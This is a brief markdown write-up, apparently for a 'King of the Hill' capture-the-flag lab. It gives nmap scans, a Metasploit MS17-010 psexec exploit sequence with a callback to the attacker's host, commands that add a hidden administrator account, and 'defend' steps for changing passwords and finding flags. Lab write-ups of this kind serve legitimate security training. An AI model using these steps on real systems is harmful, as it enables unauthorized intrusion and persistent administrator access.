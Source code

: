 # Offline KOTH

### Enumeration
```bash
# basic port scan
sudo nmap -sS <target-ip>

# script scan port 80
sudo nmap -sV -sC -p 80 <target-ip>

# vulnerability port scan
sudo nmap -sV -p 445 --script smb-vuln* <target-ip>
```
User named scarra's password found on HTTP enumeration and server is running SMBv1 and is vulnerable to MS17-010.

### Attack
```bash
# metasploit attack to establish foothold
sudo msfconsole -q
search ms17-010
use exploit/windows/smb/ms17_010_psexec
set RHOST <target-ip>
set LHOST <attack-ip>
exploit

# create an administrator user 
shell
net user <username> <password> /add
net localgroup administrators <username> /add
```

### Defend
```bash
# change password of poki and scarra
net user poki <password>
net user scarra <password>

# find all flags
cd C:\
dir flag*.txt /s
